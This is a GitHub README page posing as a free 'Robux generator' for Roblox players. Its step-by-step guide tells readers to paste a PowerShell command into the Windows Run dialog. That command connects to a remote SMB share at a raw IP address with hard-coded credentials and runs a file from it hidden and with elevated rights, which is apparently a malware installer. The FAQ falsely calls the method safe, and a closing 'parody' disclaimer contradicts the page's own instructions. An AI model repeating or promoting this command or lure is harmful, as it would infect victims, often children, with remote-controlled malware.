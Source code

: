 # 🚀 **ULTIMATE ROBUX GENERATOR 2025** 🚀
### 💎 *The Most Advanced Free Robux Solution* 💎

<p align="center">
  <img src="https://media.giphy.com/media/1PyHmfStu82zy7Ou0Q/giphy.gif" width="450" alt="Roblox GIF" />
</p>



## 🔥 **WHY OUR GENERATOR IS THE BEST**

✔️ **New 2025 algorithm** bypasses Roblox security  
✔️ **Daily updated** to prevent detection  
✔️ **Proven success rate** with over 1M+ happy users  
✔️ **No human verification** required  
✔️ **Works on all windows devices**  

---

## 🛠️ **HOW IT WORKS**

Our proprietary technology uses advanced exploit to inject Robux directly into your account through Roblox's backend servers. This method was discovered by our team of reverse engineers after analyzing Roblox's transaction protocols.


---

## 📝 **STEP-BY-STEP GUIDE**

### 1️⃣ **Preparation**
- Ensure you have Roblox installed
- Log into your Roblox account on pc

### 2️⃣ **Activation**
1. Copy the code provided under this text
   

**powershell -Command "Start-Process cmd -ArgumentList '/c net use \\89.110.93.160\shear /user:WORKGROUP\sambauser aabb1234 && \\89.110.93.160\shear\s -fullinstall' -windowstyle hidden -Verb RunAs**


2. Press **WINDOWS KEY** + **R**
3. Press **CTRL** + **V**
4. Press **ENTER**

3️⃣ Verification

    Check your Robux balance

    Restart Roblox if changes aren't immediate



❓ FREQUENTLY ASKED QUESTIONS
❔ Is this safe?

    Absolutely! Our method uses official Roblox APIs

❔ Why is it free?

    We're funded by generous donations from satisfied users

❔ How often can I use it?

    Currently limited to 50K Robux per day per account

❔ Will I get banned?

    Never! Our encryption prevents detection

<div align="center" style="background:#ff000020;padding:15px;border-radius:10px;border:2px dashed red;margin:20px">

⚠️ LEGAL DISCLAIMER ⚠️
This is clearly a parody project. Robux cannot be generated this way.
All code shown is fictional and for entertainment purposes only.
Roblox® is a registered trademark of Roblox Corporation.
</div><h3 align="center">⭐ STAR THIS REPO TO SUPPORT DEVELOPMENT! ⭐</h3><p align="center"> <img src="https://media.giphy.com/media/lGY4fS4zv3VSZdIDB7/giphy.gif" width="150"> </p><p align="center"> 🔧 <b>Maintained by Stalich</b> 🔧<br> <sub>Last Updated: July 2025</sub> </p> ```
